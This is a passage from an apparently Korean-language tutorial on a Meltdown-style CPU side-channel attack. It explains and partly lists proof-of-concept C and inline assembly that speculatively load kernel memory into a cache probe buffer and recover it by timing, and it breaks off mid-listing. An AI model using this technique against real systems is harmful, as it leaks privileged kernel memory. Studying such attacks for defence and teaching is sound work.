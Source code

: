 `out-of-order execution`을 발생시키는 `specu` 함수입니다. `call 1f`가 실행됨과 동시에 그 아래의 3줄도 실행되는데, `rdi`에 담긴 값(커널 메모리 값)과 `rsi`에 담긴 값(유저 메모리 주소)을 더한 주소가 L1 캐시 메모리에 로드 됩니다. 그 후 레지스터는 `discard` 처리되며 `1:` 부분으로 점프하게 됩니다.

```c
mapping = mmap(NULL, PAGE_SIZE * 256, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
if(mapping == MAP_FAILED)
{
  perror("mmap mapping");
  exit(-1);
}
memset(mapping, 0, PAGE_SIZE * 256);
```

캐싱을 위해 4096 * 256 크기의 `mapping`이라는 버퍼를 만들어 둡니다.

```c
// flush
clflush(mapping);

// 컨텍스트 스위칭/커널 모드 진입을 위한 인터럽트 
syscall(0, -1, 0, 0);

// 캐시 메모리에 커널 메모리 값 로드
specu(addr, mapping);

// 하나씩 로드해보면서 캐시된 값 찾기
unsigned long long t = measure_time(mapping[i]);
```

`mapping` 버퍼를 비우고 syscall을 통해 커널 메모리로 컨텍스트 스위칭을 합니다. `specu` 함수를 통해 커널 메모리 값을 캐시한 후 `measure_time` 함수를 통해 값을 가져오는 데에 걸리는 시간을 계산합니다. 이를 반복하여 값을 가져오는 데에 걸리는 시간이 가장 짧은 것이 커널 메모리에 담긴 값을 의미하게 됩니다. 캐시 미스가 나서 다른 메모리에서 값을 참조해야 하는 경우보다는 캐시 히트를 통해 가져오는 것이 훨씬 빠르기 때문입니다.

이제 실제로 아래의 코드를 테스트해봅시다.

### 1차 코드

```c
#include <stdio.h>
#include <sys/mman.h>

#define PAGE_SIZE 4096

extern void specu(void *, char (*)[4096]);
asm(
".section .text\n"
".global specu\n"
"specu:\n"
"	mfence\n"
"	call 1f\n"
"	movzbl (%rdi), %eax\n"
"	shll $12, %eax\n"
"	movq (%rax, %rsi), %rcx\n"
"1:	xorps %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	aesimc %xmm0, %xmm0\n"
"	movd %xmm0, %eax\n"
"	lea 8(%rsp, %rax), %rsp\n"
"	ret\n"
);

extern unsigned long long measure_time(void const *);
asm(
".section .text\n"
```